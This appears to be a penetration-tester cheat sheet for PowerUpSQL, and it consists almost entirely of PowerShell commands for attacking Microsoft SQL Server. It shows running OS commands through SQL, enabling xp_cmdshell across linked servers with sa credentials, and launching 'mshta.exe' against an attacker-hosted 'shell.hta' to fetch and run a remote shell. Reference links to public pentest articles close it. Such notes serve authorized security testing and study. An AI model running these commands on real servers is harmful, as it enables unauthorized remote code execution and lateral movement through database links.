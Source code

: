 # PowerUpSQL

## 01 - Invoke-SQLOSCmd

Note: `<FQDN_domain>` is literally `<IP>.<domain>`.

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<FQDN_domain>,1433" -Command "<command>" -RawResults
```

## 02 - Get-SQLServerLinkCrawl

```
PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain>\<IP> -Verbose

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

---
## References

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)